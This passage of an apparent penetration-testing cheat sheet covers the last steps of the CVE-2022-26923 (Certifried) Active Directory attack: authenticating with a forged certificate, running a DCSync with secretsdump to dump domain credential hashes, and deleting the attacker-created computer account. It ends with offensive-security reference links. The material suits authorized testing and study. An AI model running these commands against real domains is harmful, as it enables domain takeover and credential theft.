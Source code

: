 5. Authenticate with the requested certificate earlier
```bash
certipy auth -pfx dc01.pfx -dc-ip 192.168.86.182
```

6. [DCSync](#dcsync) and win
```bash
secretsdump.py domain.local/dc01\$@10.10.10.10 -just-dc -hashes :000000000000000
```

7. It is always recommended to cleanup the created computer account. _(This requires a privileged account)_
```bash
addcomputer.py range.net/Administrator:'Password123' -computer-name 'WIN-EAZXIGMWO1T$' -computer-pass 'mi#gKKWFlzxJ' -dc-ip 192.168.86.182 -delete
```

For the details explanation of the vulnerability (CVE-2022-26923), you may read the full article [here](https://research.ifcr.dk/certifried-active-directory-domain-privilege-escalation-cve-2022-26923-9e098fe298f4)

{{% callout note %}}
**ADCS References**
- https://luemmelsec.github.io/Skidaddle-Skideldi-I-just-pwnd-your-PKI/
- https://www.thehacker.recipes/ad/movement/ad-cs/
- https://mayfly277.github.io/posts/GOADv2-pwning-part6/
{{% /callout %}}


# References
* https://www.harmj0y.net/
* https://www.labofapenetrationtester.com/
* https://ired.team
* https://github.com/GhostPack/Rubeus
* https://github.com/gentilkiwi/mimikatz/wiki
